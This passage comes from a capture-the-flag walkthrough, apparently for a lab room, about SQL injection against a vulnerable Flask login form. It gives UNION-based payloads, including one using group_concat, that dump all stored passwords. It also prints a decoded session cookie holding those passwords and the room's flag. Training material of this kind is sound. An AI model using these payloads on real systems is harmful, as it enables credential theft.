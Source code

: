 <pre><div><div><span>{</span></div><div>    <span>"</span><span>challenge2_user_id</span><span>"</span><span>:</span> <span>1</span><span>,</span></div><div>    <span>"</span><span>challenge2_username</span><span>"</span><span>:</span> <span>2</span></div><div><span>}</span></div></div></pre>

Enumerate the database to find tables and columns, as we did under Task 2 Introduction to SQL Injection. A cheat sheet such as [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) can
be helpful for this. The challenge's objective was to dump all the
passwords to get the flag, so in this case, we will guess that the
column name is *password* and that the table name is *users* . With this logic, it is possible to dump the passwords with the following code:

<pre><div><span>'</span> <span>UNION</span> <span>SELECT</span> <span>1</span><span>,</span> password <span>from</span> users<span>-- -</span></div></pre>

However, the previous statement will only return one password. The [group_concat()](https://sqlite.org/lang_aggfunc.html#groupconcat) function can help achieve the goal of dumping all the passwords simultaneously.

By injecting the following code into the username field:

<pre><div>' <span>UNION</span> <span>SELECT</span> <span>1</span><span>,</span>group_concat<span>(</span>password<span>)</span> <span>FROM</span> users<span>-- -</span></div></pre>

All the passwords are dumped:

![](https://i.imgur.com/A98eMkg.png)

The passwords can also be retrieved by decoding the Flask session cookie:

<pre><div><div><span>{</span></div><div>    <span>"</span><span>challenge2_user_id</span><span>"</span><span>:</span> <span>1</span><span>,</span></div><div>    <span>"</span><span>challenge2_username</span><span>"</span><span>:</span> <span>"</span><span>rcLYWHCxeGUsA9tH3GNV,asd,Summer2019!,345m3io4hj3,THM</span><span>{AuTh2}</span><span>,viking123</span><span>"</span></div><div><span>}</span></div></div>
</pre>

### Task

Exploit the vulnerable login form and retrieve the flag.

## Vulnerable startup broken authentification 3 (Blind injection)


### Goal

This challenge has the same vulnerability as the previous one.
However, it is no longer possible to extract data from the Flask session
cookie or via the username display. The login form still has the same
vulnerability, but this time the goal is to abuse the login form with
blind SQL injection to extract the admin's password.

### Description
